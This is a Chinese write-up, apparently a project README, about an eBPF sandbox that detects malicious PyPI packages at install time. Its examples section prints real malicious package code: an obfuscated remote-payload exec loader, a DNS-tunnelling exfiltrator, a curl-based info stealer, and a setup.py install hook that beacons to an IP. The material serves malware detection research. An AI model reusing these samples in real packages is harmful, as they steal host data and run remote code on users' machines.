

之前做pypi源恶意包监控的方案中使用import hook的方式，即在load_module的过程中做hook劫持，当时该方案存在一定的局限性比如python2中exec实际是statement。最近在学习ebpf故计算利用ebpf做更加通用（pypi、npm）的类似hids的方案，利用两个周末完成相关代码实现并做部分恶意包验证，一定效果的同时也发现预期的噪声过多等问题。

## 0x01 项目图

### 1.1 环境依赖
- ebpf
```
apt install -y bison build-essential cmake flex git libedit-dev libllvm11 llvm-11-dev libclang-11-dev python zlib1g-dev libelf-dev libfl-dev clang python3-distutils
```
- server程序依赖
```
mysql
redis
supervisor
docker
```
- supervisor
```
server API服务
[program:ebpf-supply-chain-server]
user=kevinsa
command=/home/kevinsa/go/src/github.com/kevinsa/ebpf-supply-chain-server/venv/bin/python /home/kevinsa/go/src/github.com/kevinsa/ebpf-supply-chain-server/server.py
stderr_logfile=/var/log/supervisor/ebpf_server_stderr.log
stdout_logfile=/var/log/supervisor/ebpf_server_stdout.log
logfile_maxbytes=10MB
logfile_backups=10
autostart=true
startretries=15


runner 告警服务
[program:ebpf-supply-chain-runner]
user=kevinsa
command=/home/kevinsa/go/src/github.com/kevinsa/ebpf-supply-chain-server/venv/bin/python /home/kevinsa/go/src/github.com/kevinsa/ebpf-supply-chain-server/runner.py
stderr_logfile=/var/log/supervisor/ebpf_runner_stderr.log
stdout_logfile=/var/log/supervisor/ebpf_runner_stdout.log
logfile_maxbytes=10MB
logfile_backups=10
autostart=true
startretries=15
```

- 拉取package定时任务
```
crontab
0 */6 * * * /bin/bash /home/kevinsa/go/src/github.com/kevinsa/ebpf-supply-chain-server/main.sh
```

### 1.2 ebpf-supply-chain
ebpf采集hook信息、并上报到server端
```sh
kevinsa@ubuntu ~/g/s/g/k/ebpf-supply-chain (master)> 
tree -L 2
.
├── docker-compose.yml
├── Dockerfile // docker ebpf-supply-chain:base为安装python3 & pip3的基础镜像
├── global
│   └── setting.go
├── go.mod
├── go.sum
├── main.go 
├── README.md
├── service 
│   ├── biz // 从server获取检测任务
│   ├── event_biz.go
│   ├── event_socket.go
│   ├── event_sys_exec.go
│   ├── event_sys_open.go
│   ├── event_sys_write.go
│   ├── modules.go
│   ├── register.go
│   ├── socket // socket相关ebpf
│   ├── sysexec // exec相关ebpf
│   ├── sysopen  // 文件打开相关ebpf
│   └── syswrite // 文件写入相关ebpf
└── utils
    ├── convert_utils.go
    ├── post_hook_info.go // hook信息上报
    ├── post_sys_exec_hook_info.go // hook信息上报
    ├── post_sys_open_hook_info.go // hook信息上报
    └── post_sys_write_hook_info.go // hook信息上报
```

### 1.3 ebpf-supply-chain-server
```shell
kevinsa@ubuntu ~/g/s/g/k/ebpf-supply-chain-server (master)> tree -L 2
.
├── config
│   ├── __init__.py
│   └── setting.py
├── database
│   ├── cache  // redis缓存相关
│   ├── __init__.py
│   ├── mapper // mysql存储相关
│   ├── mysql.py
│   └── redis_db.py
├── db
│   └── resource.sql // mysql数据表
├── log
│   └── supply-chain-check.log // 日志
├── main.py // 定时拉取新增package
├── main.sh // crontab使用
├── mirror // pypi镜像源
│   ├── cloud_tencent_com.py
│   ├── doubanio_com.py
│   ├── impl
│   ├── __init__.py
│   ├── pypi_org.py
│   └── tuna_tsinghua_edu.py
├── modules
│   ├── get_package_version.py
│   ├── __init__.py
│   ├── logger.py
│   ├── package_task_service.py
│   ├── simple_common_service.py
│   └── utils.py
├── requirements.txt
├── rule // 根据hook信息做是否恶意包判责方法
│   ├── exec_black_rule.py
│   ├── impl
│   ├── __init__.py
│   ├── socket_address_rare_rule.py
│   ├── socket_black_address_rule.py
│   └── socket_black_port_rule.py
├── runner.py // 根据hook信息做是否恶意包判责入口函数
└── server.py // server入口函数
```

## 0x02 ebpf
eBPF可以使用kprobe\tracepoint等探测点获取内核函数执行时的基础数据，故可以用于实现做恶意包利用时的沙盒检测。ebpf一般由c语法来做编写然后利用llvm编译ebpf字节码后做加载，也有bcc等高级语言的封装，最后采用的是[cilium ebpf](https://github.com/cilium/ebpf)，对于cilium ebpf只需要部分c逻辑，```go generate```会做bpf2go的封装逻辑，后续负责逻辑些golang即可。

### hook sys_open
检测包管理恶意包项目中做检测的hook点为：```kprobe/do_sys_openat2```、```fentry/tcp_connect```、```kprobe/sys_execve```，以hook系统open调用为例子

```c
#include "common.h"
#include "bpf_helpers.h"
#include "bpf_tracing.h"

char __license[] SEC("license") = "Dual MIT/GPL";


struct event
{
    u32 pid;
    u8 comm[16];
    // char filename;
    u8 filename[100];
};


struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 256 * 1024 /* 256 KB */);
} events SEC(".maps");

struct event *unused __attribute__((unused));

SEC("kprobe/do_sys_openat2")
int kprobe_do_sys_openat2(struct pt_regs *ctx)
{   
    u64 id   = bpf_get_current_pid_tgid();
	u32 tgid = id >> 32;
    struct event *task_info;

    // char file_name[255];
    // long err = bpf_probe_read_user_str(&task_info->filename, sizeof(task_info->filename), (void *)ctx->rdi);
    
    task_info = bpf_ringbuf_reserve(&events, sizeof(struct event), 0);
	if (!task_info) {
		return 0;
	}

    char *filename = (char *)PT_REGS_PARM2(ctx);
    bpf_probe_read(&task_info->filename, sizeof(task_info->filename), filename);


    task_info->pid = tgid;
    bpf_get_current_comm(&task_info->comm, 16);
    bpf_ringbuf_submit(task_info, 0);

    return 0; 
}
```
使用ring buffer map来准备和发送数据到用户空间，在用户空间使用golang对hook到的数据做二次处理即可。

## 0x03 问题&留坑
### 3.1 问题
- ebpf监控力度粗于python3 rasp的方式，导致系统级别噪声过多，在后置聚合、关联、检测能力较弱的情况下，较难完成预期的恶意包判责，易陷入误报/漏洞的跷跷板中。


### 留坑
两个周末完成的工程中留下的小坑也不少，后续如有时间会做fix
- ebpf中sys_exec只获取pid\comm\filename，缺失后置判责逻辑中的强需的avg信息
- server中main.py获取新增pypi package中应修改为threading+asyncio方式，且目前仅获取新增package未判断version粒度变化
- server中的runner.py判责逻辑只做简单黑白名单规则，没有根据多hook信息中pid做关联、聚合等逻辑

## 0x04 feature
### 4.1 特定OS恶意行为触发
发现部分恶意包会判断操作系统类型，在macos下会执行采集信息等恶意动作，由于ebpf运行在linux下故暂时不能触发恶意行为并检出，故暂时是否可以通过AST的方式去做白盒的检出。对应feature_ast_os_diff分支，恶意包举例：
```python
kwxiaodian

if sys.platform == 'darwin':
    def get_info():
        version = sys.version
        uname_string = str(os.popen("uname -a").read())
        id_string = str(os.popen("id").read())
        pwd_string = str(os.popen('pwd').read())
        ip_string = str(os.popen('ifconfig').read())
        info = {
            "uname": uname_string,
            "id": id_string,
            "pwd": pwd_string,
            "ip": ip_string
        }
        if version[0] == '2':
            info = base64.b64encode(json.dumps(info))
        else:
            info = base64.b64encode(json.dumps(info).encode('utf-8')).decode()
        print(info)

        url = 'http:/81.70.191.194:14333/start/' + info
        os.system('curl -m 3 -s -o /dev/null ' + url)
```

### 4.2 报名混淆相似度检出
看到[Beyond Typosquatting, An In-depth Look at
Package Confusion
](https://www.usenix.org/system/files/sec23_slides_neupane.pdf) 其中提到13中容易混淆导致误用package的情况，故是否可以利用当前已检出的packagename、全量package做样本判断是否是恶意包，用来做辅助分析。当前已给出的恶意package请参考```/small_sample/package`.json```

### 4.3 dns hook
通过hook```getaddrinfo```函数可以获取通过curl/wget等方式的dns查询，但是无法获取nslook不通过getaddrinfo函数的数据
相关恶意包case  

#### google_longrunning为例
```
import os
import socket
import json
import binascii
import random
import string


PACKAGE = 'google_longrunning'
SUFFIX = '.lol.0d'+'ay-se'+'curity.com';
NS = 'lol.0da'+'y-sec'+'urity.com';


def generate_id():
    return ''.join(random.choice(
        string.ascii_lowercase + string.digits) for _ in range(12)
    )

def get_hosts(data):

    data = binascii.hexlify(data.encode('utf-8'))
    data = [data[i:i+60] for i in range(0, len(data), 60)]
    data_id = generate_id()

    to_resolve = []
    for idx, chunk in enumerate(data):
        to_resolve.append(
            'v2_f.{}.{}.{}.v2_e{}'.format(
                data_id, idx, chunk.decode('ascii'), SUFFIX)
            )

    return to_resolve


def try_call(func, *args):
    try:
        return func(*args)
    except:
        return 'err'


data = {
    'p' : PACKAGE,
    'h' : try_call(socket.getfqdn),
    'd' : try_call(os.path.expanduser, '~'),
    'c' : try_call(os.getcwd)
}

data = json.dumps(data)


to_resolve = get_hosts(data)
for host in to_resolve:
    try:
        socket.gethostbyname(host)
    except:
        pass

to_resolve = get_hosts(data)
for host in to_resolve:
    os.system('nslookup {} {}'.format(host, NS))
```
- 可支持
```
socket.gethostbyname(host)
```
- 不支持
```
os.system('nslookup {} {}'.format(host, NS))
```


## 参考1-效果
[部分样本](https://github.com/Kevin-sa/ebpf-supply-chain/tree/master/small_sample)  
以检测到的部分恶意pypi包为例
### 175.24.100.2
比较出名的“175.24.100.2”恶意包
```
+------------------------------------------+------------+
| package                                  | version    |
+------------------------------------------+------------+
| easdyict                                 | 1.0.0      |
| ueler                                    | 1.0.0      |
| fliemagic                                | 1.0.0      |
| cryptograhpy                             | 1.0.0      |
| uitls                                    | 1.0.0      |
| efficientent-pytorch                     | 1.0.0      |
| vitualenv                                | 1.0.0      |
| demjon                                   | 1.0.0      |
| imutlis                                  | 1.0.0      |
| m1niexception                            | 0.1        |
| pydatamover                              | 0.0.2      |
| waveradio-v0-0-2                         | v0.0.2     |
| bigchaindbnextgen                        | 2.2.2.2    |
| newtorks                                 | 1.0.0      |
| benchmark-chrome                         | Chrome     |
| azure-textanalytics                      | 6969.99.99 |
| btcspendfrom                             | 20.3.4     |
| coin-master-hack-coins-free-working-2022 | 0.13       |
| aioli-client                             | client     |
| xmpuspus                                 | 0.0.1      |
+------------------------------------------+------------+
20 rows in set (0.00 sec)
```

### talmalfu
```python
import builtins
import requests

url = bytes.fromhex('687474703a2f2f7a6576656c2e736974652f7061796c6f61642d3032').decode()
payload = requests.get(url).text
getattr(builtins, bytes.fromhex('65786563').decode())(payload)
```

### 101.32.99.28
```sql
mysql> select hook_type,rule_name,package,version,score from supply_chain_evil_result where status=1;
+-----------+---------------------+-------------+------------+-------+
| hook_type | rule_name           | package     | version    | score |
+-----------+---------------------+-------------+------------+-------+
| socket    | socket_address_rare | animatch    | 8.8.8      | 50    |
| socket    | socket_address_rare | api-library | library    | 50    |
| socket    | socket_address_rare | aaaaaaaaa   | 0.1.0      | 50    |
| socket    | socket_address_rare | autres      | 0.1.0      | 50    |
| socket    | socket_address_rare | taoxin      | 0.1.0      | 50    |
| socket    | socket_address_rare | openrooms   | 0.1.0      | 50    |
| SOCKET    | other               | paras-b     | 6969.99.99 | 0     |
+-----------+---------------------+-------------+------------+-------+
7 rows in set (0.00 sec)
```

```python3
kevinsa@ubuntu ~/D/e/coding-dojo-0.1.0> cat setup.py
#!/usr/bin/env python
# coding: utf-8

from setuptools import setup
from setuptools.command.install import install
import requests

class CustomInstallCommand(install):
    def run(self):
        install.run(self)
        url = "h"+"t"+"t"+"p"+":"+"/"+"/"+"1"+"0"+"1"+"."+"3"+"2"+"."+"9"+"9"+"."+"2"+"8"+"/name?coding-dojo"
        requests.get(url, timeout=30)

setup(
    name='coding-dojo',
    version='0.1.0',
    author='RemindSupplyChainRisks',
    author_email='RemindSupplyChainRisks@gmail.com',
    url='https://github.com/coding-dojo',
    description='Remind Supply Chain Risks',
    packages=['coding-dojo'],
    install_requires=['requests'],
    cmdclass={
        'install': CustomInstallCommand,
    },
)
```

## 参考2
- [cilium/ebpf](https://github.com/cilium/ebpf)